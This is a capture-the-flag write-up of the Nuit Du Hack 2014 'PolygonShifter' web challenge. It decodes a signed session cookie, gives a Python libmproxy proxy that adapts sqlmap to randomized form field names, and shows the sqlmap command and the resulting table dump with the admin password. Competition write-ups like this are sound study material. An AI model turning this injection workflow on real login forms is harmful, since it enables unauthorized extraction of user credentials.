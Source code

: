 ```yaml
---
layout: post
title: "Nuit Du Hack Quals 2014 Writeups"
description: ""
category: writeups
tags:
- nuitduhack2014
- 2014
- nuitduhackctf
---
```

<!--{% include JB/setup %}-->

<a href="polygonshifter"></a>
### Web 100 - PolygonShifter

We're presented with a "bot-unfriendly" example login page. The names of the username and password fields in the source are generated with each page, along with the action path:

    <form action="/kd0Opm3615utl3YSLs0g" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="0YkfgNs8LGlEO9F9NwhM" name="8V7Qt7KtSJL3OW9zpwPj">
        <label for="I48lIt3mdAdDB0ErbYx3" style="text-align:left;">Password</label>
        <input type="password" id="I48lIt3mdAdDB0ErbYx3" name="kzDhvllIYyqf3uHH6lZN">
        <input class="primary large" type="submit" value="Login">
    </form>

We also receive a cookie `session`:

    .eJxdzU0LgjAAgOG_Ejt3UFcXoYvorGDJdJbtEnMuMj9xhjLpvxddyu7vwzsBLvq8qS 
    _XXJYZsCewSIENuEUGCp0e6_N4SI5G6h5YbIwa-2IDnkvQcqWGpsv-GWw9vmUq9UomE 
    1RheNxFLlOnYjVn-ddElKzevYEtsyCn0CN3B4lqz6SLP-ahZFfzSv6tAnSGcUJgBEMa
    FYOmpljL2oGx38zZzwqjsmNVFgh9w6E1IqpLP4jXkHvG2zxfx2xWgw.BiyFoA.MVsPd
    sBLjDQAqPoi9JQyAHAzQsQ

This is the form of a signed, timestamped data cookie. The period at the beginning of the string indicates that the cookie is zlib-compressed, `BiyFoA` is the representation of the timestamp, and `MVsPdsBLjDQAqPoi9JQyAHAzQsQ` is the signature of the cookie.

We can dissect cookies in Python:

    >>> session = '.eJxdzU0LgjAAgOG_Ejt3UFcXoYvorGDJdJbtEnMuMj9xhjLpvxd
    dyu7vwzsBLvq8qS_XXJYZsCewSIENuEUGCp0e6_N4SI5G6h5YbIwa-2IDnkvQcqWGps
    v-GWw9vmUq9UomE1RheNxFLlOnYjVn-ddElKzevYEtsyCn0CN3B4lqz6SLP-ahZFfzS
    v6tAnSGcUJgBEMaFYOmpljL2oGx38zZzwqjsmNVFgh9w6E1IqpLP4jXkHvG2zxfx2xW
    gw.BiyFoA.MVsPdsBLjDQAqPoi9JQyAHAzQsQ'
    >>> session = session.split('.')[1]
    >>> len(session)
    254
    >>> session += '='*(-len(session)%4) # add padding
    >>> import base64, zlib
    >>> zlib.decompress(base64.urlsafe_b64decode(session))
    '{"action_field":{" b":"a2QwT3BtMzYxNXV0bDNZU0xzMGc="},
      "password_field":{" b":"a3pEaHZsbElZeXFmM3VISDZsWk4="},
      "password_id":{" b":"STQ4bEl0M21kQWREQjBFcmJZeDM="},
      "username_field":{" b":"OFY3UXQ3S3RTSkwzT1c5enB3UGo="},
      "username_id":{" b":"MFlrZmdOczhMR2xFTzlGOU53aE0="}}'

`password_field` and `username_field` are the base64-encoded field names on the example login page.

Some attempts revealed that the username and password fields were vulnerable to SQL injection; we were able to achieve errors, and log in as `test` even when providing a username of `admin`. sqlmap would be the tool to use, except the form submission path, username field name, and password field name, are randomized and then stored in a signed cookie. Each request must be submitted to a different path with random parameter names, and sqlmap is not suited to doing this.

So, we used libmproxy to build a proxy to rewrite outgoing requests, and direct sqlmap to pass requests through it:

    from libmproxy import controller, proxy, flow
    import os
    import base64
    import zlib
    import json
    class StickyMaster(controller.Master):
        def __init__(self, server):
            controller.Master.__init__(self, server)
            self.cookies=[]
        def run(self):
            try:
                return controller.Master.run(self)
            except KeyboardInterrupt:
                self.shutdown()

        def handle_request(self, msg):
            hid = (msg.host, msg.port)
            msg.headers["Cookie"] = ['; '.join(self.cookies)]
            msg.headers['User-Agent'] = ['Mozilla/5.0 (X11; Linux x86_64) \
                AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152\
                Safari/537.36']
            if msg.path == '/ACTIONPLS':
                msg.path = '/'+base64.b64decode(self.fields['action_field'][' b'])
                print "Changing path to", msg.path
                params = msg.get_form_urlencoded()
                u_param = [params['username'][0]]
                p_param = [params['password'][0]]
                print "incoming parameters: ",u_param, p_param
                newparams = flow.ODict()
                newparams[base64.b64decode(self.fields['username_field'][' b'])] = u_param
                newparams[base64.b64decode(self.fields['password_field'][' b'])] = p_param 
                print "Changed params to:"
                print newparams
                msg.set_form_urlencoded(newparams)
            msg.reply()

        def handle_response(self, msg):
            hid = (msg.request.host, msg.request.port)
            print "response", hid
            if msg.headers["set-cookie"]:
                print msg.headers["set-cookie"]
                self.cookies = [x.split(';')[0] for x in msg.headers["set-cookie"] if 'delete' not in x]   
                self.scookie = self.cookies[0].split('=')[1]
                self.fields = self.scookie.split('.')[1]
                self.fields+=('='*(-len(self.fields)%4))
                self.fields = json.loads(zlib.decompress(base64.urlsafe_b64decode(self.fields)))
                print self.fields
            msg.reply()


    config = proxy.ProxyConfig()
    server = proxy.ProxyServer(config, 7222)
    m = StickyMaster(server)
    m.run()

The proxy will rewrite `username` and `password` using the field names from the most recent signed cookie, and change the request path similarly. Then, we can use sqlmap to inject on fields named `username` and `password` using the URL `/ACTIONPLS`. The final step is to ensure that each outgoing request has a fresh signed cookie. We use the `--eval` sqlmap flag to send a request to `/example` before each injection attempt, also through the proxy. The final sqlmap command we used is:

    sqlmap -u "http://54.204.80.192/ACTIONPLS" --data="username=test&password=test"\
     --proxy="http://127.0.0.1:7222"\
     --eval="import urllib,time; urllib.urlopen('http://54.204.80.192/example',\
    proxies={'http':'http://127.0.0.1:7222'});"\
     -s /tmp/sqlmapoutputEVk5JE/54.204.80.192/session.sqlite\
     --exclude-sysdbs -T polygon_user --threads=8 --dump -D polygon_db

The output:

    Database: polygon_db
    Table: polygon_user
    [2 entries]
    +----+----------+--------------------------------+
    | id | username | password                       |
    +----+----------+--------------------------------+
    | 1  | test     | test                           |
    | 2  | admin    | n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm |
    +----+----------+--------------------------------+

Logging in as admin with that password displays `my password is the flag`, which it is!
